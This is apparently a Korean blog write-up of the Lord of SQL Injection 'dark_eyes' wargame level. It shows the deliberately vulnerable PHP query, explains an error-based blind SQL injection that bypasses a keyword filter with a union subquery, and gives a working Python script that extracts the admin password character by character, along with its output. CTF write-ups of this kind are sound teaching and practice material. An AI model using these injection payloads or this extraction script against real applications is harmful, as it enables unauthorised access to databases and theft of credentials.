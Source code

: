 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dark_eyes 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에도 역시 `Error`를 기반으로 한 `Error Based Blind SQL Injection` 이다.  

그런데 이번에는 이 전 문제랑은 약간 다르다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

이 전 문제에서 사용했던 `if`가 필터링 대상에 들어가 있고, `if`를 대체할 수 있는 `case`나 `when`도 필터링한다.  

즉, 조건문을 사용할 수가 없다.  

그래서 내가 처음에 생각했던 방법은 `and`와 `or`을 적절히 이용하는 것이다.  

만약에 `1 or 0`이라는 조건이 있다면, 앞의 `1`이 이미 참이기 때문에 뒤의 `0`은 체크하지 않는다고 생각했다.  

반면 `0 or 1`이라면, 앞의 `0`이 거짓이기 때문의 뒤의 `1`을 체크하는 것이다.  

그래서 앞에 `pw`의 길이와 내용을 알기 위한 쿼리를 넣고 뒤에 에러를 유발하는 쿼리문을 넣는다면, 앞의 조건이 참이라면 뒤의 에러 유발용 쿼리가 실행되지 않아 정상적으로 페이지가 보일 것이라고 생각했던 것이다.  

그런데 음... 내가 뭘 잘못 한 것인지 이건 아무리 해도 안됬다.  

정확히는 쿼리 스트링을 `pw=1' or id='admin' and ord('a')=97 or 9e307*2`를 넣으면 앞의 `id='admin' and ord('a')=97`가 참이기 때문에 뒤의 `9e307*2`에 대해서 에러가 발생하지 않는다.  

(9e307은 MySQL에서의 최대값이기 때문에 9e307*2를 하면 `DOUBLE value is out of range in '(9e307 * 2)'`라는 에러가 발생한다.)  

그런데 `pw=1' or id='admin' and length(pw)>0 or 9e307*2`을 넣으면 무슨 조건을 넣더라도 무조건 에러가 나왔다.  

왜 이러는지 이유를 모르겠다 ㅠㅠ  

그래서 결국 다른 방법을 찾아보아서 아래와 같이 쿼리 스트링을 구성 해 문제를 풀었다.  

```
?pw=1' or id='admin' and (select 1 union select (length(pw)=1))#
```

이렇게 하면 만약 `length(pw)=1`이 참이라면 `1`을 반환하기 때문에 `select 1 union select 1`이 되어 한 행만 결과로 나온다.  

하지만 거짓이라면 `select 1 union select 0`을 하게 되면, 2개의 행을 반환하기 때문에 `Subquery returns more than 1 row`라는 오류를 출력한다.  

이를 바탕으로 `pw`를 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and (select 1 union select (length(pw)=" + str(i) + "))%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'select id from prob_dark_eyes' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and (select 1 union select (ord(substr(pw, " + str(j) + ", 1))=" + str(i) + "))%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'select id from prob_dark_eyes' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 소문자와 숫자로 구성 된 8자리 `pw`값을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 5a
[+] Found 3 : 5a2
[+] Found 4 : 5a2f
[+] Found 5 : 5a2f5
[+] Found 6 : 5a2f5d
[+] Found 7 : 5a2f5d3
[+] Found 8 : 5a2f5d3c
[+] Found password :  5a2f5d3c
[+] End
```

이 값을 쿼리스트링으로 넘겨주면 문제를 풀 수 있다.  

```
?pw=5a2f5d3c
```

```php
----------------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw='5a2f5d3c'
----------------------------------------------------------------------------------------------------

DARK_EYES Clear!
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

`DARK_EYES Clear!!`
